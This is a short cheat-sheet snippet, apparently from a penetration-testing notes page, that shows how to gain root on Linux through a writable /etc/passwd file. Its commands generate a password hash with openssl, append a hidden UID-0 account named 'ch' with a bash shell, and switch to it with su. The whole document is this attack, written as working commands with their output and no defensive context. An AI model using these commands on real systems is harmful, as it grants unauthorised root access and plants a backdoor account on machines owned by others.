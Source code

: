 # Writable /etc/passwd file

```
$ openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1

$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> /etc/passwd

$ su ch
password: pass123
```
